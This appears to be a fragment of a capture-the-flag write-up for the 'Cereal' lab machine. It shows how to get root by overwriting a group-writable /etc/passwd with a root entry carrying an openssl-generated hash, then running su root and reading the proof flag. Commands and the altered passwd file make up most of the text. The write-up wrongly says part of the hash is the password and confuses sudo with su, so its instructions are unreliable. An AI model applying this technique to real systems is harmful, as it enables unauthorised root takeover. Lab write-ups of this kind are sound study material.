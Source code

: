 ```bash 
bash-4.4$ watch -n 1 ls -l /etc/passwd
```

output 

```bash
-rwxrwxr-x. 1 rocky apache 1549 May 29  2021 /etc/passwd
```

now if we change the /etc/passwd with an openssl hash we will obtain root when the crontab execute the changes in home/rocky/public_html/back_en

hash


```bash
bash-4.4$ openssl passwd
Password: 
Verifying - Password: 
r51uFnE0/JNuY
```

passwd

```bash 
root:r51uFnE0/JNuY:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync

```
and if you use the command sudo and if you add this password r51uFnE0 instead f the normal password that root has that we don't know at this point 
we will gain access

```bash
su root
```

you will gain sudo privilages 

flag
```bash 

[root@cereal ~]# cat proof.txt 
Well done! You have completed Cereal.

  ____                    _ 
 / ___|___ _ __ ___  __ _| |
| |   / _ \ '__/ _ \/ _` | |
| |__|  __/ | |  __/ (_| | |
 \____\___|_|  \___|\__,_|_|
                            
```

